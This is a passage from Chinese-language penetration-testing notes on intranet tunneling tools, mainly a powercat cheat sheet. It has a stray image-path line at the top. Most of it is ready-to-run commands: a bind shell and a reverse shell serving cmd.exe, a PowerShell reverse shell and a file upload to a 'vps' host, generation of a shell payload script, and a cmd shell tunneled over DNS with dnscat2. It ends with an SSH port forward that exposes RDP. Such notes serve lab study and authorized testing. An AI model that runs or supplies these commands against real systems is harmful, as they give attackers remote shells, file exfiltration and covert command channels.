 ```ssh
>
```

### 2.3.3. [PowerCat](https://github.com/besimorhino/powercat.git)
>nc的powershell版本
#### 2.3.3.1. powercat常用操作
```ssh
#powercat正向shell
win10(192.168.1.119):
    powercat -l -p 8888 -e cmd.exe -v 
kali(192.168.1.119):  
    nc 192.168.1.119 8888
-------------------------------
#powercat反弹shell
win10(192.168.1.119):
    powercat -c 192.168.1.119 -p 8888 -v -e cmd.exe
kali(192.168.1.119): 
    nc -lvp 8888
--------------------------------------
#返回powershell
powercat -c vps -p 9999 -v -ep 
-----------------------------
#传输文件
powercat -l -p 8888 -of test.txt -v 
powercat -c vps 8888 -i c:\test.txt -v 
-----------------------------
#生成payload
powercat -l -p 8888 -e cmd -v -ge >>shell.ps1
>
```
#### 2.3.3.2. powercat DNS隧道通信
```ssh
kali :192.168.1.117        win10:192.168.1.119
---------------------------------------
kali: ruby dnscat2.rb -e open --no-cache ttpowercat.test
win10: powercat -c 192.168.1.117 -p 53 -dns ttpowercat.test -e cmd.exe
```

## 2.4. 应用层隧道技术
### 2.4.1. SSH协议隧道

[使用SSH反向隧道进行内网穿透 ](http://arondight.me/2016/02/17/%E4%BD%BF%E7%94%A8SSH%E5%8F%8D%E5%90%91%E9%9A%A7%E9%81%93%E8%BF%9B%E8%A1%8C%E5%86%85%E7%BD%91%E7%A9%BF%E9%80%8F/)
#### 2.4.1.1. 本地端口转发
```ssh
kali: 192.168.1.117       MacBook  :192.168.1.121
                          win10    :192.168.1.119 
---------------------------------------------------
kali:     127.0.0.1:444  --> 192.168.1.119:3389
    ssh -CfNg -L 4444:192.168.1.119:3389  ethan@192.168.1.121
```
